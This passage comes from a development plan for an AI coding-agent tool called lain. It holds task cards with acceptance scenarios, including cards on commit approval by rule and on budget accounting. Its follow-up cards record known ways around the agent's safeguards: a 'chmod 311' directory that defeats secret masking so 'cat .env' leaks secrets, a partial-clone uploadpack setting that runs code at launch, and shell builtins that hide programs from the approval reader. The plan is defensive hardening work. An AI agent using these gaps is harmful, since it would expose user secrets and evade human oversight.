**Acceptance criteria**

```gherkin
Scenario: a summary follows /model
  Given a chat with no --summarizer-model on the same arm as the chat
  When the human types /model B and a summary is made
  Then the summary request names B with B's runner options

Scenario: the handoff window follows the live model
  Given the same switch
  When a handoff is sized
  Then it uses B's window
```
Spec file: `spec/lain/cli/backend_spec.rb`, `spec/lain/cli/backend/summarizer_spec.rb`

Delete:
- `Backend#summarizer_options` (`backend.rb:350`) and its 4 readers.
- `tier_default_model`, folded into the Tier's follow-or-pinned rule. `Backend#summarizer_model` stays as a reader of the summarizer Tier's model, so `cli/wiring/header.rb:26`, `cli/backend/startup_notices.rb` and their specs do not change.
- The `requester:` keyword of `summarizer_provider`.
- The 4 copies of the `Journaled` plus `Oracle::Model` recipe.

The secret oracle keeps its own transport and takes only `Tier#extra`.

**Stop and report if:**
- The secret oracle's provider construction discipline spec fails: its transport must not move.

### T28: A secondary call's spend counts toward `--max-cost`          [risk: high]

**Depends on:** T27
**Files:** `lib/lain/budget/spent.rb`, `lib/lain/budget/shared.rb`, `lib/lain/agent/accounting.rb`, `lib/lain/cli/backend/tier.rb`, `lib/lain/approval/judge.rb`, `lib/lain/status_feed.rb`, `lib/lain/journal/projection/usage.rb`, `spec/lain/status_feed_spec.rb`, `spec/lain/journal/projection/usage_spec.rb`, `spec/lain/budget/spent_spec.rb`, `spec/lain/budget/shared_spec.rb`, `spec/lain/agent/accounting_spec.rb`, `spec/lain/cli/backend/tier_spec.rb`
**Reuse:** `Budget::Spent` (commutative monoid), `Budget::Shared#settle`, `Budget::Account#check_step!` via `ceilings.dollars_refusal`
**Shared-file wiring:** `lib/lain/cli/wiring.rb:665`: build the `Budget::Shared` before `Backend#attach` and pass it there
**Reachable from:** `Wiring#build_agent` -> `Backend#attach` hands the Tier the main agent's `Budget::Shared`

**Acceptance criteria**

```gherkin
Scenario: judge spend trips the ceiling
  Given a priced cloud chat with --max-cost 0.01 at auto
  When judged calls cost more than 0.01 dollars
  Then the next chat step refuses on the dollar ceiling

Scenario: tier spend does not eat the token ceiling
  Given --max-tokens 1000
  When summaries spend tokens
  Then the chat's token room is unchanged

Scenario: the HUD and the ceiling read the same dollars
  Given a chat whose judge and summarizer have spent
  When the HUD and --max-cost read the spend
  Then both show the same figure, and each tier response counts once

Scenario: the order of payments does not matter
  Given the same tier and child payments in 2 orders
  When the spent totals are read
  Then they are equal
```
Spec file: `spec/lain/budget/shared_spec.rb`, `spec/lain/cli/backend/tier_spec.rb`

**Interface**

```ruby
Budget::Spent.of(response, prices:, clock:) # extracted from Accounting#priced
Budget::Shared#pay(spent)                    # dollars only; public
```

Delete `Judge#paid` (`judge.rb:286-291`): the Tier pays and journals once.

**Stop and report if:**
- A tier response is still counted in both `OracleAnswer` and `TurnUsage` by `StatusFeed` (`status_feed.rb:334` records a past double count there).

### T29: A read-starved cut that cures the starvation skips the Worth floor          [risk: medium]

**Depends on:** none
**Files:** `lib/lain/compaction/source.rb`, `spec/lain/compaction/source_spec.rb`
**Reuse:** `Room#cured_by?`, `Source#worth_forcing?` (`lib/lain/compaction/source.rb:1019`), `Need::ReadStarved`
**Shared-file wiring:** none
**Reachable from:** `Agent` turn -> `Compaction::Source#decide` -> `weigh` (`:970`) -> `refusal` (`:1004`)

**Acceptance criteria**

```gherkin
Scenario: a curing rewrite is taken under the floor
  Given a render where reads are starved and a rewrite frees enough to cure it but less than the Worth floor
  When the source decides
  Then it compacts

Scenario: a rewrite that cannot cure is still refused
  Given a starved render where the rewrite frees too little to cure
  When the source decides
  Then it refuses below the floor, as today
```
Spec file: `spec/lain/compaction/source_spec.rb`

There is 1 cure predicate. `refusal` takes `room:`, and `worth_forcing?` reuses the same call. The existing pins at `source_spec.rb:798,802` stay.

**Stop and report if:**
- `Need`'s room (input tokens only, `need.rb:35`) and `RoundBudget.window` (input plus output) disagree on a case the new example needs: that is c28-2's residual, which is out of scope.

### T30: The idle tick prepares the cut the next ask applies          [risk: medium]

**Depends on:** T29
**Files:** `lib/lain/compaction/source.rb`, `spec/lain/compaction/source_spec.rb`, `spec/lain/compaction/source/compaction_prepared_spec.rb`
**Reuse:** `Compaction::Head`/`Boundary` (the 1 owner of the keep rule), `HeldCut#sends_prepared?`/`holds_newest?` (`lib/lain/compaction/source.rb:531`), which the spike showed already accept an idle cut
**Shared-file wiring:** none
**Reachable from:** `Repl::IdleCompaction#tick` -> `Agent#prepare_idle` (`agent.rb:362`) -> `Source#prepare` (`source.rb:737`) -> `prepared_cut` (`:806`)

**Acceptance criteria**

```gherkin
Scenario: an idle chat over the threshold prepares a cut
  Given a chat launched with --compact-schedule idle --compact-bytes 3000 --compact-keep 1 after 4 short asks
  And the head the next prompt would make droppable is over 3000 bytes
  When the idle tick runs
  Then compaction_prepared is journaled

Scenario: the next ask applies the prepared cut
  Given a prepared cut
  When the human sends the next prompt
  Then the request uses the prepared cut, and no second summary is paid
```
Spec file: `spec/lain/compaction/source_spec.rb`, `spec/lain/compaction/source/compaction_prepared_spec.rb`

**Stop and report if:**
- Measuring the keep window from a phantom next prompt needs a second keep rule beside `Head`: the keep rule must stay in 1 place.

The idle decision measures the head as the next ask will: it counts the keep window back from the next prompt, not from the last message, so the last exchange is droppable at idle when `keep_last` would drop it at the ask.

### Stream C: cockpit and children

### T31: A cockpit restart keeps the input pane          [risk: medium]

**Depends on:** none
**Files:** `lib/lain/cli/input_socket.rb`, `lib/lain/cli/repl.rb`, `lib/lain/cli/command/clear.rb`, `lib/lain/cli/command/resume_session.rb`, `lib/lain/cli/up.rb`, `spec/lain/cli/input_socket_spec.rb`, `spec/lain/cli/command/clear_spec.rb`, `spec/lain/cli/command/resume_session_spec.rb`, `spec/lain/seams/cockpit_restart_spec.rb` (new)
**Reuse:** `Up::ChatRestart#call` (true only in a cockpit), `InputPane`'s reconnect on a stream that just ends
**Shared-file wiring:** `spec/support/slow_files.rb` if the seam spec crosses the threshold
**Reachable from:** `CLI::Wiring#input_socket` builds `InputSocket` (`wiring.rb:444`); `/clear` -> `Up.respawn_chat`

**Acceptance criteria**

```gherkin
Scenario: /clear keeps the keyboard
  Given a real InputSocket and a real InputPane on a cockpit chat
  When the human types /clear
  Then the input pane reconnects to the new chat and its next line reaches it

Scenario: /resume keeps the keyboard
  Given the same cockpit
  When the human resumes another session
  Then the input pane reconnects

Scenario: quit still says goodbye
  Given the same cockpit
  When the human types /quit
  Then the input pane receives closed and exits
```
Spec file: `spec/lain/seams/cockpit_restart_spec.rb`, `spec/lain/cli/input_socket_spec.rb`

**Interface**

```ruby
InputSocket#stop(goodbye: true) # a restart passes false
Repl exit reason :restart       # quits like :quit, stops the socket with no goodbye
```

**Stop and report if:**
- `spec/lain/cli/input_socket_spec.rb:438` ("says goodbye before the path goes") is needed for a restart too.

### T32: Every tmux session target is exact          [risk: low]

**Depends on:** T31
**Files:** `lib/lain/cli/up.rb`, `spec/lain/cli/up_spec.rb`
**Reuse:** none
**Shared-file wiring:** none
**Reachable from:** `CLI::Up#call` -> `session_exists?` (`up.rb:1462`) and the other `-t @session` sites

**Acceptance criteria**

```gherkin
Scenario: a prefix-named session is not mistaken
  Given a tmux server holding session lain-old and no session lain
  When lain up runs with session lain
  Then it creates session lain and does not attach to lain-old
```
Spec file: `spec/lain/cli/up_spec.rb`

All about 12 `-t @session` sites go through 1 `Up#target`, which answers `"=#{@session}"`. The `up_spec.rb` fake shell treats `has-session` as exact, so add a prefix case to it.

**Stop and report if:**
- A tmux verb in use rejects the `=` prefix (for example `new-window -t "=s:"`): then name the verb, and use its own exact form.

### T33: `ChildArgv` builds every lain child command line from the live run          [risk: medium]

**Depends on:** T32
**Files:** `lib/lain/cli/child_argv.rb` (new), `lib/lain/cli/command/fork.rb`, `lib/lain/cli/command/btw.rb`, `lib/lain/cli/fleet_windows.rb`, `lib/lain/cli/live_views.rb`, `lib/lain/cli/up.rb`, `lib/lain/cli/command/env.rb`, `spec/lain/cli/child_argv_spec.rb` (new), `spec/lain/cli/command/fork_spec.rb`, `spec/lain/cli/command/btw_spec.rb`, `spec/lain/cli/fleet_windows_spec.rb`
**Reuse:** `PaneCommand.call`, `RunProfile#typed`, `Up::FreshChatArgs` (`lib/lain/cli/up.rb:474-486`, which becomes a `ChildArgv` method)
**Shared-file wiring:** `lib/lain/cli/wiring.rb`: build `ChildArgv` once and hand it to `Command::Env`
**Reachable from:** `CLI::Wiring` -> `Command::Env#child_argv`, read by `/fork`, `/btw` and `FleetWindows.for` (`live_views.rb:131`)

**Acceptance criteria**

```gherkin
Scenario: /fork under --root opens the right session
  Given lain chat --root ~/proj started from another directory
  When the human types /fork
  Then the new window resumes the fork in ~/proj

Scenario: the watch window watches this chat
  Given 2 chats in one project
  When the fleet watch window opens from the second
  Then it watches the second chat's session

Scenario: /clear does not re-ask the seed prompt
  Given lain up -- --prompt hi
  When the human types /clear
  Then the new chat starts with no user turn
```
Spec file: `spec/lain/cli/child_argv_spec.rb`, `spec/lain/cli/command/fork_spec.rb`, `spec/lain/cli/fleet_windows_spec.rb`

**Interface**

```ruby
CLI::ChildArgv.new(root:, cwd:, journal_path: -> { path }, typed:, chat_flags:)
ChildArgv#chat(*extra)    # => Array<String>; drops --resume, --fork, --prompt
ChildArgv#watch           # => Array<String> with --session
ChildArgv#printable(argv) # one shell-quoted line for a refusal or a hint
```

The `--prompt` scenario is S2-2 (MED-LOW). It stays because dropping `--prompt` is a word in the same `chat` method. Delete `FleetWindows`' `watch_argv:` and `WATCH_ARGV` (only specs pass them), and the printable-line copies in `fork.rb` and `btw.rb`.

**Stop and report if:**
- `journal_path` is read before promotion in a way the callable cannot cover.

### T34: The herdr resume command restores the cockpit lain up built          [risk: medium]

**Depends on:** T33
**Files:** `lib/lain/herdr/reporter.rb`, `lib/lain/cli/up.rb`, `lib/lain/cli/chat_launch.rb`, `lib/lain/cli/child_argv.rb`, `spec/lain/herdr/reporter_spec.rb`, `spec/lain/seams/herdr_resume_spec.rb` (new)
**Reuse:** the tmux session options `ChatRestart::FRESH` (`lib/lain/cli/up.rb:1622`) and `Herdr::Target::OPTION` (`lib/lain/cli/up.rb:1753`), `Herdr::Reporter::CockpitSession` (`lib/lain/herdr/reporter.rb:42`), `Resume::Selector`
**Shared-file wiring:** none
**Reachable from:** `ChatLaunch#herdr_reporter` (`chat_launch.rb:222`) builds the Reporter; `CLI::Up#call` stores the cockpit's own command line

**Acceptance criteria**

```gherkin
Scenario: the stored command resumes the session
  Given a cockpit inside herdr with a non-default --socket, --no-nvim and -- --approval ask
  When the resume command the reporter stores is run
  Then the cockpit comes back on the same socket with the same flags and resumes the session

Scenario: a plain chat's stored command resumes
  Given a plain chat inside herdr
  When its stored resume command runs from another directory
  Then it resumes the same session
```
Spec file: `spec/lain/seams/herdr_resume_spec.rb`, `spec/lain/herdr/reporter_spec.rb`

The seam spec feeds `Reporter#resume_words` into `Resume::Selector#call`. `reporter_spec.rb:195-233,406,459-465`, which pin the absolute path, change.

**Stop and report if:**
- herdr's 8 KiB or apostrophe limits (`accepted?`) refuse the full command for a common flag set.

### T35: Text typed at `command>` survives a park answered in nvim          [risk: medium]

**Depends on:** none
**Files:** `lib/lain/frontend/input_pane.rb`, `lib/lain/frontend/line_editor.rb`, `lib/lain/frontend/stdin_pump.rb`, `spec/lain/frontend/input_pane_spec.rb`, `spec/lain/frontend/stdin_pump_spec.rb`
**Reuse:** `LineEditor.untouched?`/`typed?` (`lib/lain/frontend/line_editor.rb:106-120`), `StdinPump#keep`
**Shared-file wiring:** none
**Reachable from:** `lain input` -> `Frontend::InputPane#stop_drawing` (`input_pane.rb:494`); a plain chat -> `StdinPump#withdrawn_under` (`stdin_pump.rb:334`)

**Acceptance criteria**

```gherkin
Scenario: a draft survives an nvim answer
  Given a cockpit with a call parked and the human typing at command>
  When the human answers the park in nvim
  Then the typed text is still in the input line

Scenario: Ctrl-C still clears the draft
  Given typed text at command>
  When the human presses Ctrl-C
  Then the draft is cleared, as today
```
Spec file: `spec/lain/frontend/input_pane_spec.rb`, `spec/lain/frontend/stdin_pump_spec.rb`

**Stop and report if:**
- `redrawn_whole(above:)` (`input_pane.rb:419`) relies on the stop dropping the buffer for a case other than Ctrl-C.

### T36: A settled or failed ask reaches the terminal notifier          [risk: low]

**Depends on:** none
**Files:** `lib/lain/cli/repl/ask.rb`, `lib/lain/journal/projection/agent_states.rb`, `lib/lain/telemetry/run_interrupted.rb`, `spec/lain/cli/repl/ask_spec.rb`, `spec/lain/journal/projection/agent_states_spec.rb`
**Reuse:** `RunInterrupted::REASONS`, the TTY's `AskSettled` branch (`frontend/tty.rb:529`)
**Shared-file wiring:** none
**Reachable from:** `Repl::Ask#record_settled` (`ask.rb:112`); `Journal::Projection::AgentStates#advanced` (`agent_states.rb:68-77`)

**Acceptance criteria**

```gherkin
Scenario: +notify rings for a finished ask
  Given a chat with +notify
  When an ask settles
  Then the terminal channel receives the settled record and rings once

Scenario: a failed ask notifies
  Given the human is away
  When an ask ends on max_tokens, an upstream error or a stalled stream
  Then the agent state is done and a notice is sent

Scenario: a human stop stays silent
  Given the human typed /stop
  When the ask ends
  Then no notice is sent
```
Spec file: `spec/lain/cli/repl/ask_spec.rb`, `spec/lain/journal/projection/agent_states_spec.rb`

`RunInterrupted#human?` is true for `interrupted`, `grace_expired` and `stopped`. Delete the duplicate `read_back` branch.

**Stop and report if:**
- The notifier's `done: main` wording must differ for a failure: report the text, and do not invent one.

### T37: Export and `/share` follow the resume chain, and refuse an empty page          [risk: medium]

**Depends on:** none
**Files:** `lib/lain/cli/export.rb`, `lib/lain/cli/export/html.rb`, `spec/lain/cli/export_spec.rb`, `spec/lain/cli/command/share_spec.rb`
**Reuse:** `Resume::ChainWalk#entries` (`cli/resume/chain_walk.rb`)
**Shared-file wiring:** none
**Reachable from:** `lain export` -> `CLI::Export#call`; `/share` -> `Command::Share`, built in `Wiring` with `exports:`

**Acceptance criteria**

```gherkin
Scenario: html export of a resumed session holds every turn
  Given a session resumed once
  When lain export --format html runs on it
  Then the page shows the turns from before and after the resume

Scenario: an empty page is refused
  Given a session with no turns
  When /share runs
  Then it refuses and publishes nothing

Scenario: jsonl stays per file
  Given the same resumed session
  When lain export --format jsonl runs
  Then the output equals the file, and lain verify passes
```
Spec file: `spec/lain/cli/export_spec.rb`, `spec/lain/cli/command/share_spec.rb`

**Stop and report if:**
- The released-secret count that gates html export (`refuse_released`) cannot read across the chain.

### T38: notify-feed resolves past the gem bin dirs, and its failure is reported          [risk: low]

**Depends on:** T36
**Files:** `lib/lain/notices.rb`, `lib/lain/notices/feed.rb`, `lib/lain/frontend/tty/notifier.rb`, `lib/lain/cli/todos.rb`, `lib/lain/cli/command/park.rb`, `spec/lain/notices_spec.rb`, `spec/lain/notices/feed_spec.rb`
**Reuse:** `Shell::Path.entries`, `Notices::Null`
**Shared-file wiring:** none
**Reachable from:** `Notices.for` from `Tty::Notifier.for_chat` (`notifier.rb:53`), `CLI::Todos#drain` (`todos.rb:21`) and `Command::Park#initialize` (`park.rb:15`)

**Acceptance criteria**

```gherkin
Scenario: a stale gem binstub is skipped
  Given a notify-feed in the gem bin dir and another later on PATH
  When lain sends a feed notice
  Then the later one runs

Scenario: a failing feed says so
  Given a notify-feed that exits 1
  When the drain sends a notice
  Then the drain's output names the failure
```
Spec file: `spec/lain/notices_spec.rb`, `spec/lain/notices/feed_spec.rb`

`notes:` becomes required on `Notices.for`. Delete the `program:` keyword, which only a spec passes.

**Stop and report if:**
- `Gem.bindir` differs from the mise gem bin dir that holds the stale binstub on this box: then name the dir rule that covers both.

### T39: Skill slot files are checked against the known names          [risk: low]

**Depends on:** none
**Files:** `lib/lain/prompt/skill_slots.rb`, `lib/lain/prompt/slots.rb`, `spec/lain/prompt/skill_slots_spec.rb`, `spec/lain/prompt/slots_spec.rb`
**Reuse:** `Slots#misspelt!`, `refuse_extension`, `slot_files`
**Shared-file wiring:** none
**Reachable from:** `Prompt::Slots.read` and `Prompt::SkillSlots.read` at chat launch

**Acceptance criteria**

```gherkin
Scenario: a misspelled skill slot file is refused
  Given .lain/slots/skills/research/brief.md where the hole is named breif
  When a chat launches
  Then it refuses naming the file and the nearest known name

Scenario: a directory matching no skill is refused
  Given .lain/slots/skills/reserch/
  When a chat launches
  Then it refuses naming the directory
```
Spec file: `spec/lain/prompt/skill_slots_spec.rb`

1 region validator, `(dir, known:, level:)`, serves all 3 levels and replaces the 2 hand-written loops.

**Stop and report if:**
- A shipped skill has no declared holes to check against.

### Stream D: drain and children

### T40: A drain may commit inside its own lease by rule          [risk: high]

**Depends on:** T5
**Files:** `lib/lain/approval/lease_commit.rb` (new), `lib/lain/cli/wiring/board_build.rb`, `lib/lain/chores/runner.rb`, `spec/lain/approval/lease_commit_spec.rb` (new), `spec/lain/chores/runner_spec.rb`
**Reuse:** `Approval::Rule#decide`, `ComposedTerm`'s `untrusted_runs` rule (a run file fresh in the lineage or writable from the root), `IsolationBackend.worktree_root`
**Shared-file wiring:** none
**Reachable from:** `CLI::Wiring::BoardBuild#approving` (`board_build.rb:196`) returns `[*remembered, LeaseCommit, ComposedTerm]`; the drain's chat is launched by `Chores::Runner#argv` (`runner.rb:146`)

**Acceptance criteria**

```gherkin
Scenario: a drained chore's commit is approved by rule
  Given lain todos drain running a chore in its clone lease at auto
  When the chat calls git commit -m "chore"
  Then the call is approved by rule and the commit lands in the lease

Scenario: a commit outside a drain lease still asks
  Given an ordinary chat in a project
  When it calls git commit -m x
  Then the call is not approved by this rule

Scenario: an installed hook the lineage did not write is allowed
  Given a worktree lease of a repository with an installed pre-commit hook
  When the drain's chat calls git commit -m chore
  Then the call is approved by rule and the hook runs

Scenario: a hook the lease could have written still asks
  Given a lease whose core.hooksPath points inside the lease, or a hook written in this lineage
  When the chat calls git commit
  Then this rule abstains

Scenario: --no-verify is never approved by rule
  Given a drain lease
  When the chat calls git commit --no-verify -m x
  Then this rule abstains

Scenario: a human deny outranks the rule
  Given a remembered human deny of git commit
  When the drain calls git commit
  Then it is denied
```
Spec file: `spec/lain/approval/lease_commit_spec.rb`, `spec/lain/chores/runner_spec.rb`

**Stop and report if:**
- The drain's chat cannot tell its root is its own lease without a new flag: add `--lease` to `Chores::Runner#argv` only, and report it.

### T41: A drained chore is judged by what it committed, and a research report lands          [risk: medium]

**Depends on:** T40
**Files:** `lib/lain/chores/runner.rb`, `lib/lain/chores/outcome.rb`, `lib/lain/chores/brief.rb`, `spec/lain/chores/runner_spec.rb`
**Reuse:** `Chores::Runner#after_chat` (`lib/lain/chores/runner.rb:79-93`), the epic driver's judge-by-sha (`lib/lain/cli/epic_driver/factory.rb:1348`)
**Shared-file wiring:** none
**Reachable from:** `lain todos drain` -> `CLI::Todos#drain` -> `Chores::Runner#each`

**Acceptance criteria**

```gherkin
Scenario: a commit followed by a nonzero exit lands
  Given a chore chat that commits and then exits 1 on the iteration ceiling
  When the drain finishes it
  Then the commit is verified and landed, and the note says the chat exited 1

Scenario: a chat that committed nothing is failed
  Given a chore chat that exits 1 with HEAD unmoved
  When the drain finishes it
  Then the item is marked failed with the chat's failure

Scenario: a research chore's report lands
  Given a research chore whose chat writes its report and commits it
  When the drain finishes it
  Then the report is on main after the verified landing
```
Spec file: `spec/lain/chores/runner_spec.rb`

**Stop and report if:**
- The research brief (`Brief::RESEARCH`) tells the chat not to commit: change the brief, and name the line.

### T42: A stopped researcher can be resumed          [risk: high]

**Depends on:** none
**Files:** `lib/lain/tools/subagent/stops.rb`, `lib/lain/tools/subagent.rb`, `lib/lain/isolation/leases.rb`, `lib/lain/cli/resume/stopped_children.rb`, `spec/lain/tools/subagent/stops_spec.rb`, `spec/lain/cli/resume/stopped_children_spec.rb`
**Reuse:** `Leases#retain`/`snapshot`/`pin` (`lib/lain/isolation/leases.rb:335-361`)
**Shared-file wiring:** none
**Reachable from:** `Tools::Subagent` lends a scratch or spike lease (`subagent.rb:434-444`); `/stop` -> `Stops#keeping`; resume -> `Resume::StoppedChildren`

**Acceptance criteria**

```gherkin
Scenario: a stopped researcher is offered after a restart
  Given a researcher stopped mid task
  When the parent session is resumed
  Then the researcher is listed as resumable and resumes from its snapshot

Scenario: a confined child that kept nothing says why
  Given a child whose lease kept no snapshot
  When resume lists stopped children
  Then it says the child kept no snapshot
```
Spec file: `spec/lain/tools/subagent/stops_spec.rb`, `spec/lain/cli/resume/stopped_children_spec.rb`

`StoppedChildren` decides resumability from whether a snapshot is present, not from `kept`.

**Stop and report if:**
- A scratch lease is not a git checkout, so `snapshot` cannot run there: report, and keep the scratch directory instead.

### F1: The huge-lists ceiling example runs without thousands of real searches          [risk: low]

**Depends on:** none
**Files:** `spec/lain/tools/subagent_spec.rb`
**Reuse:** `Lain::Tools::Subagent::Answer#partial`, as its sibling example "stays within the bound however the lists land against it" already drives it
**Shared-file wiring:** none
**Reachable from:** spec only

A repeat flake: `Lain::Tools::Subagent a one-shot child that does not finish when the ceiling stops a child that had read files and written notes keeps the ceiling message and the last text block when the lists are huge` (`subagent_spec.rb:758`) went STUCK against the 30s watchdog in 2 landing hooks of this run (30.8s at load 25.7, 30.3s at load 28.7 on 16 cores). It was recorded in `docs/toolchain-traps.md` on 2026-11-10. Alone it costs about 10s of CPU on main and on the card, because it drives 5000 real `grep` calls through the loop.

**Acceptance criteria**

```gherkin
Scenario: the huge-lists example keeps what it asserts
  Given a child history with 5000 searches and a final text block
  When the answer is cut at the ceiling
  Then it starts with the ceiling message, keeps the final text and an elided count, and stays within ANSWER_BOUND

Scenario: the example is cheap
  When the example runs alone
  Then it takes well under 1 second of CPU, measured, not asserted in the spec
```
Spec file: `spec/lain/tools/subagent_spec.rb`

Move the `toolchain-traps.md` entry to the retired list, naming this fix.

**Stop and report if:**
- The ceiling message or the elided count is only reachable through the loop, so the cut cannot be driven directly.

### F2: A git that lain spawns never fetches lazily          [risk: high]

**Depends on:** none
**Files:** `lib/lain/sensitivity/history_literals.rb`, `lib/lain/approval/composed_term/repository.rb`, every other `lib/` site that spawns `git` itself (grep for the spawn helpers first and list them in the hand-back), and their specs
**Reuse:** the existing git spawn helpers; `run_files.rb:58` already lists `--no-lazy-fetch` as a known flag
**Shared-file wiring:** none
**Reachable from:** chat launch builds the history literal scan, which runs `git rev-list --objects --all --reflog` before any prompt

Found by the T5 review. In a partial clone (`extensions.partialClone`, `remote.<name>.promisor=true`), a git read that needs a missing object fetches it, and the fetch runs the program `remote.<name>.uploadpack` names. lain's own launch-time `git rev-list --all` does this with no approval, under every `--confine` mode, including the default. A cloned repository can therefore run code the moment a chat opens in it.

**Acceptance criteria**

```gherkin
Scenario: launch runs no repository-named program
  Given a partial clone whose remote.origin.uploadpack writes a marker file
  When a chat launches in it
  Then the marker is never written, and the history scan still runs

Scenario: every git lain spawns refuses a lazy fetch
  Given the list of lib/ sites that spawn git themselves
  When each runs
  Then its environment carries GIT_NO_LAZY_FETCH=1
```
Spec file: `spec/lain/sensitivity/history_literals_spec.rb`, plus a ratchet spec over the git spawn sites if they are more than 1 helper

User ruling 2026-11-13: lain avoids partial clones when it sets up an environment, and every git lain spawns refuses a lazy fetch. A lease or a review in a partial clone that needs a missing object fails with a message naming the cause and the fix (`git fetch --refetch`, or a full clone), not a bare exit 128.

**Stop and report if:**
- A lain feature needs a lazy fetch to work: name it.
- git spawns are spread across more than about 5 sites with no shared helper: report the list before adding a helper.

### F4: The out-of-order fan-out example orders its children by gate, not by sleep          [risk: low]

**Depends on:** none
**Files:** `spec/lain/tools/subagent_concurrency_spec.rb`, `docs/toolchain-traps.md`
**Reuse:** `ReverseOrderProvider` in the same spec
**Shared-file wiring:** none
**Reachable from:** spec only

A repeat flake: `Lain::Tools::Subagent async fan-out out-of-order completion lands in one ordered user turn gathers every result into ONE user message in tool_use order, however the children finish` went red in the T18 landing suite with the children completing go-2, go-3, go-1, green alone and 3 of 3 on base. It was already on the known list twice. The provider orders completion by sleeps of 60, 40 and 20 ms, which load reorders.

**Acceptance criteria**

```gherkin
Scenario: the children finish in reverse order under any load
  Given 3 children whose provider releases each answer only after the later child has finished
  When the parent fans out
  Then the children complete go-3, go-2, go-1, and the results land in one user turn in tool_use order
```
Spec file: `spec/lain/tools/subagent_concurrency_spec.rb`

Move the `toolchain-traps.md` entry to the retired list, naming this fix.

**Stop and report if:**
- A gate between children deadlocks because the fan-out starts them one at a time: say so with the spawn order you saw.

### F8: The Offload sibling-fiber examples assert that the sibling ran, not a tick share          [risk: low]

**Depends on:** none
**Files:** `spec/lain/tool/offload_spec.rb`, `docs/toolchain-traps.md`
**Reuse:** `longest_tick_gap_share` in the same spec, if it can count ticks rather than time them
**Shared-file wiring:** none
**Reachable from:** spec only

A repeat flake: `Lain::Tool::Offload keeps a sibling fiber running while the work holds its thread` went red in the T33 landing suite (seed 29174) and was green alone; it was on the known list since 2026-10-21. Both sibling-fiber examples assert a longest tick gap under 30% of the work's wall time, a wall-clock threshold the no-wall-clock ruling forbids in specs.

**Acceptance criteria**

```gherkin
Scenario: a sibling fiber runs while the work holds its thread
  Given work that holds its thread until a sibling fiber has ticked a set number of times
  When the work is offloaded
  Then the work finishes, which it can only do if the sibling ran

Scenario: no wall-clock share is asserted
  When the spec file is read
  Then neither sibling-fiber example compares a time to a threshold
```
Spec file: `spec/lain/tool/offload_spec.rb`

If the timing is still worth watching, it moves to `bin/hot-path-bench`, not the spec. Move both `toolchain-traps.md` entries to the retired list, naming this fix.

**Stop and report if:**
- The work cannot wait on the sibling without the sibling needing the same thread: report what blocks it.

## Follow-up cards

Found during this run and not planned here. Each needs its own plan or a user ruling before it runs.

- **F3:** `hash -p` and `enable -f` let a later pipeline stage run a program the shell reader does not see (T3 review, predates).
- **F5:** name a command's untrusted run files (hooks) on the approval row; carry the resolver on the context (T9 review).
- **F6:** route Stage and Reopen through `GateView#phase` (T19 review).
- **F7:** the improver and the clerk run their tool phase on `ToolGuard.detached`, with no path policy, so a read there returns history literals unmasked; hand them the board's policy (T12 review).
- **F9:** widen the "cannot read" set to script files, `make`, `patch`, `git apply` and `&` stages.
- **F10:** a withdrawn build grant parks the build (user ruling 2026-11-11).
- **F11:** reap kept research directories and spike branches.
- **F12:** the status header is drawn twice after a cockpit Ctrl-C (predates T35).
- **F13:** now a card below (user ruling 2026-11-13: contain them).
- **F14:** LeaseCommit follow-ups: the include regex in `RunFiles#hooks_directory`, `cd .git && git commit`, and `Guard` reading the default Paths. Defence in depth only; the sandbox is the boundary.
- **F15:** `Clone::Guard.container` reads the default Paths, not the injected `paths:`, so a clone under a custom state home is not recognised (T41 review).
- **F16:** a drained research item cannot run as the researcher: `lain chat` has no role option, and a `@researcher/research` line runs in a subagent confined to its own scratch directory, so its report never reaches the lease. Needs a user ruling among a `--role` option, a role spawn in the parent's checkout, or a parent turn after a role-bound line (T41 stop). User ruling 2026-11-13: wider than a drain. Any launch should take a role and/or a skill or command: a subagent spawn, `lain chat`, a drain, and a herdr fork. A separate plan.
- **F17:** `Surfaces::REFUSED` (`lib/lain/approval/escalation.rb`) still ends "or the window closed and the fail-closed doctrine did", which no timed-out call reaches since T15. The text is pinned by `spec/fixtures/sessions/approval_replay/ask.ndjson`, and `bin/regenerate-session-fixtures` also rewrites the variance and planted-compaction fixtures and re-measures latencies, so the fixture needs a narrower rewrite.
- **F18:** an ask that stops on `max_tokens` keeps going instead of failing (user ruling 2026-11-13): lain continues the reply until it completes, so `max_tokens` is a soft per-reply cap, and the run then stops or compacts as usual. Open: a ceiling on continuations, and whether `--max-tokens` becomes the continuation budget. The `failed: main (max_tokens)` notice then covers only a real failure. A separate plan.
- **F19:** scan a git pathspec that names a regular file, so an automatic `git add` of an unmasked file holding a token, then a push, runs contained under the 2026-11-13 ruling (F13 review).
- **F20 (soon, a real escape):** a directory nobody can list unmasks its secrets. A confined `chmod 311 sub` exits 0, and the next mask refresh drops the masks under `sub`, because `Find.find` ignores `EACCES` and `git ls-files` exits 0 on a directory it cannot open; `cat sub/.env` then prints the secret, through `bin/workspace-run` in a plain directory and in a git repo (T6 review). Predates T6 on the git path. Count a directory the lister or the walk could not read as a failure: mask it whole, as `pruned_mask` does, or keep its last masks.
- **F21:** a project root that was never listed refuses the workspace grant. A root of mode 0311 on the first refresh is masked with nothing, and bwrap lets `cat .env` through; the judge already fails closed. `MaskList` says "never listed", and `Confine::Profiles` refuses the grant (T6 review, predates T6).
- **F22:** `MaskList::Tree`'s `whole_pruned:` and `walks_unlisted:` are always opposite: inject the fallback lister instead. `Listing.git` is a general git runner, and `HistoryLiterals` holds both `@git` and `@shell_out` and builds a `Checkout` per refresh (T6 review).
- **F23:** wire the containment probe lazily again. T10 made `ToolsetBuild#board_inputs` call `Sandbox#containment` at wiring, which probes the box (lain-fence, then `bwrap --unshare-net`) on every chat launch; before, that ran on the first bash call. `bin/hot-path-bench`'s `wire_ready` went from 18.6 to 19.3 ms to 23.1 ms at `f6db4dca`, and to 24.4 to 24.8 ms at `bdd602d8`, against a 17.1 ms ceiling. Hand the board a containment that probes when first asked; account for the further 1.5 ms after `f6db4dca` too.
- **F24:** a lain chat started from an old `~/w/ir` checkout ignored SIGTERM and SIGINT while idle and needed SIGKILL (pid 1812006, 2026-11-13; its journal was intact). Check whether current lain does the same, with a scripted provider and a private tmux socket.

### F13: An automatic allow of a call that reads secrets runs contained too          [risk: high]

**Depends on:** none
**Files:** `lib/lain/confine/profiles.rb`, `lib/lain/approval/escalation.rb` (the `contained` ruling field and `Surfaces`), the judge, rule, remembered-allow and bypass sites that build an allow ruling (grep `Ruling.new`/`allow` under `lib/lain/approval/` and `lib/lain/middleware/`; list them in the hand-back), `planning/qa/scenarios/shell-term-approval.md` (the "Not covered" note in 11b), and their specs
